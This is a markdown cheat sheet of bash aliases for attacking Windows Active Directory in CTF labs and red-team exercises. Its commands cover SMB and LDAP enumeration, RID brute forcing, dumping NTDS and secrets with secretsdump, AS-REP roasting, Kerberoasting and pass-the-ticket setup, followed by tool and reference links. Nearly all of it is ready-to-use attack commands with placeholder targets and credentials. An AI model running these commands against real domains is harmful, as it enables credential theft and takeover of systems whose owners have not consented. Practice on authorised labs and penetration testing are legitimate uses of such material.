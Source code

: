 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
alias smbshare='smbclient -L \\\\TARGET\\ -N'
alias smbconnect='smbclient \\\\TARGET\\SHARE'
alias smbuser='smbclient -L \\\\TARGET\\ -U'
alias enum4='enum4linux-ng -a'
alias enumuser='enum4linux -u USERNAME -p PASSWORD -a TARGET'
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r 10.10.10.0/24'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
alias bloodhound='bloodhound-python -u USER -p PASSWORD -dc-ip DC_IP -c all'

# 🗂️ Password & Hash Dumping
alias secretsdump='secretsdump.py DOMAIN/USER:PASSWORD@TARGET'
alias dumpntds='secretsdump.py -just-dc DOMAIN/USER:PASSWORD@DC_IP'
alias hashgrab='impacket-secretsdump'
alias ridbrute='rpcclient -U "" TARGET -N -c "enumdomusers"'

# 📜 Kerberos Ticket Attacks
alias asreproast='GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass -dc-ip TARGET'
alias kerberoast='GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip TARGET -request'
alias tgt='klist'
alias renewtgt='kinit USERNAME@DOMAIN'
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
alias impacket='cd ~/tools/impacket && source venv/bin/activate'
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
alias kerbcheck='nmap --script "krb5-enum-users" -p 88 TARGET'
alias noauthrpc='rpcclient -U "" -N TARGET'
alias authrpc='rpcclient -U USER%PASSWORD TARGET'

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)
